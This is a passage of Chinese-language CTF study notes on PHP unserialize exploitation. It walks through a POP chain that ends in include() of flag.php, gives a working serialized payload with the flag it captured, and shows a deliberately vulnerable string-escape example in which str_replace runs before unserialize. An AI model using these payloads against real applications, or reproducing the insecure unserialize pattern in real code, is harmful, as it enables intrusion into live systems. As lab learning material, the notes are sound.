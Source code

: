 ```php
echo $this->source; 这里可以做什么?联想到上一段代码 __toString()函数:对象被当做字符串输出的时候被调用
那我们是不是就可以把$source赋值成一个对象 然后被echo 导致__toString()函数被触发？  //($source=Show(对象))

//整体理一遍思路
反序列化前 调用__wakeup() 给$source赋值成obj Show 调用了__toString()
给$str赋值成obj Test 然后返回了一个Test中不存在的成员属性source 调用了Test中的 __get()
给$p赋值成obj Modifier 就会调用Modifier中的__invoke()
__invoke()中又调用了append($value)这个function , 那么我们就要在$this->append($this->var)中动手脚
给var赋值成flag.php 然后被传参进append() include()后输出flag.php中的flag
```

![image-20231029142642235](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231029142642235.png)

```php
echo serialize($show); //PoC结果
O:4:"Show":2:{s:6:"source";r:1;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"Modifiervar";s:8:"flag.php";}}}
//注意这里的var是私有属性 所以构造最终payload的时候要在Modifier两边加%00
```

PAYLOAD

```php
?pop=O:4:"Show":2:{s:6:"source";r:1;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"%00Modifier%00var";s:8:"flag.php";}}}

ctfstu{5c202c62-7567-4fa0-a370-134fe9d16ce7}
```



**0x08 字符串逃逸**

**字符串逃逸基础**
![image-20231029143158498](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231029143158498.png)

![image-20231029143203227](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231029143203227.png)

成员属性数量一致
成员属性名称长度一致
内容长度一致
![image-20231029152423185](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231029152423185.png)

;} 由前面的s:5 来决定几个字符 从而决定是不是功能性字符

字符串逃逸减少例题:

```php
class A{
    public $v1 = "abcsystem()system()system()";
    public $v2 = '123';

    public function __construct($arga,$argc){
            $this->v1 = $arga;
            $this->v2 = $argc;
    }
}
$a = $_GET['v1'];
$b = $_GET['v2'];
$data = serialize(new A($a,$b));
$data = str_replace("system()","",$ data);
var_dump(unserialize($data));
```
